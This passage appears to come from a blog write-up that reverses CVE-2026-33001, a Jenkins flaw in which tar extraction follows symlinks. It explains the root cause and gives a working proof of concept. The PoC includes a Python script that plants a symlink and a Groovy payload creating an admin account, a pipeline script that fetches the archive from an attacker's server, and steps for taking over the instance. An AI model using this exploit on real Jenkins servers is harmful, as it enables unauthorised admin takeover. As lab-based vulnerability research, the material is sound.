The Groovy payload lands directly in Jenkins' init scripts directory.

#### Why the path check is blind to symlinks ? 

The root cause is the mismatch between static string normalization (what the check does) and dynamic filesystem resolution (what the OS does at write time).

Check sees:   `/workspace/root_link/init.groovy.d/exploit.groovy`  (within baseDir)
OS resolves:  `/var/jenkins_home/init.groovy.d/exploit.groovy`      (outside baseDir)

`Path.normalize()` is a pure string operation defined in the Java spec as resolving . and .. components only. It does not touch the filesystem. By the time `IOUtils.copy()` opens the file, the symlink has already been planted on disk in Step 3, and the JVM faithfully follows it.

On the next Jenkins restart, the `init.groovy.d/` directory is scanned and every `.groovy` file in it is executed with full privileges running the attacker's payload.


## PoC

As we have seen in the introduction, the attack is possible for a user with **Job/Configure** permission on a Jenkins instance that uses **Pipeline** jobs.

First we need to create a malicious tar file. We can use the following python script to create a malicious tar file.
What the script does is, it creates a tar file with a symlink to the `/var/jenkins_home` directory. 

```py
import io
import tarfile

JENKINS_HOME = "/Users/avanthika/.jenkins"
tar_filename  = "exploit.tar.gz"

# groovy payload to create a new user "hacked" with password "hacked123" and grant them admin privileges
payload = b"""
import jenkins.model.*
import hudson.security.*

def instance = Jenkins.getInstance()
def realm    = new HudsonPrivateSecurityRealm(false)
realm.createAccount("hacked2", "hacked123")
instance.setSecurityRealm(realm)
def strategy = new FullControlOnceLoggedInAuthorizationStrategy()
instance.setAuthorizationStrategy(strategy)
instance.save()
"""

with tarfile.open(tar_filename, "w:gz") as tar:

    #  SYMLINK pointing to JENKINS_HOME
    link        = tarfile.TarInfo("root_link")
    link.type   = tarfile.SYMTYPE
    link.linkname = JENKINS_HOME
    tar.addfile(link)

    # file written THROUGH the symlink
    entry      = tarfile.TarInfo("root_link/init.groovy.d/exploit.groovy")
    entry.size = len(payload)
    entry.mode = 0o777
    tar.addfile(entry, io.BytesIO(payload))

print(f"{tar_filename} created")
print(f"Entry 1: SYMLINK   root_link -> {JENKINS_HOME}")
print(f"Entry 2: FILE      root_link/init.groovy.d/exploit.groovy")
```
Host the tar file on a server that the Jenkins instance can access. For example, you can use a simple python http server.

```bash
python3 -m http.server 9000
```

So, while being logged in as admin, go to Manage Jenkins-> Security -> Authorization.
By default, it might be set to "Logged-in users can do anything". Change it to **Matrix-based security**. Give the authenticated users minimal permissions, but make sure they have **Job/Configure** permission, and only the admin users should have all permissions.



Now, go to Manage Jenkins -> Security -> Users -> Create a new user.

Then logout as admin and login as the new low-privilege user.

Click on New Item and create a new Pipeline job.


Then, scroll down to the Pipeline section and select **Pipeline script**.
Here we will write our malicious pipeline script. If you are new to Jenkins pipeline, you can refer to the [Jenkins Pipeline concepts](https://www.jenkins.io/doc/book/pipeline/#pipeline-concepts) on how to write a pipeline script.

```groovy
pipeline {
    agent any
    stages {
        stage('Download and Extract') {
            steps {
                fileOperations([
                    fileDownloadOperation(
                        password: '',
                        proxyHost: '',
                        proxyPort: '',
                        targetFileName: 'exploit.tar.gz',
                        targetLocation: '',
                        url: 'http://[IP_ADDRESS]/exploit.tar.gz',
                        userName: ''
                    ),
                    fileUnTarOperation(
                        filePath: 'exploit.tar.gz',
                        isGZIP: true,
                        targetLocation: ''
                    )
                ])
            }
        }
    }
}
```

Here the script will:
- Download the malicious tar file from the attacker's server.
- Extract the tar file.
- Create a symlink (root_link) pointing to the Jenkins home directory.
- Write a malicious Groovy script into the Jenkins `init.groovy.d` directory (via the symlink), which will create a new admin user and weaken security the next time Jenkins starts.


Once the pipeline is configured, click on **Save** and then **Build Now**.


Now restart the Jenkins instance. You can restart it by going to localhost:8080/restart and clicking on **Restart Jenkins**.
While restarting, the malicious groovy script will be executed, which will create a new admin user and weaken security the next time Jenkins starts.

Now, you can login as the new admin user and enjoy the full control over the Jenkins instance. (hacked2/hacked123)


The ability to create a new admin user and weaken security is a critical impact of this vulnerability. It allows an attacker to gain full control over the Jenkins instance, even if they don't have admin privileges initially. 


## Conclusion

Jenkins has always been on my radar for vulnerability research, but every time I tried reversing a Jenkins CVE before this, I hit a wall because the codebase is massive, the abstraction layers run deep, and it is easy to get lost before you even find the interesting part. CVE-2026-33001 was the one that finally clicked. The patch was surgical enough to point you exactly where to look, once we understand the patch, the rest of the exploit just falls into place.

If you made it this far, hopefully Jenkins feels a lot less intimidating than it did at the start.

Finally, a shoutout to the researcher who found and reported this bug — Nguyen Ngoc Quang Bach. Good catch!


## References

- [CVE-2026-33001](https://nvd.nist.gov/vuln/detail/CVE-2026-33001)
- [Jenkins Security Advisory](https://www.jenkins.io/security/advisory/2026-03-19/)
- [Jenkins Controller Isolation](https://www.jenkins.io/doc/book/security/controller-isolation/)    
- [Jenkins Agents](https://www.jenkins.io/doc/book/using/using-agents/)
- [Jenkins Nodes](https://www.jenkins.io/doc/book/managing/nodes/)
- [Jenkins Remoting](https://github.com/jenkinsci/remoting)
- [FilePath javadoc](https://javadoc.jenkins.io/hudson/FilePath.html)
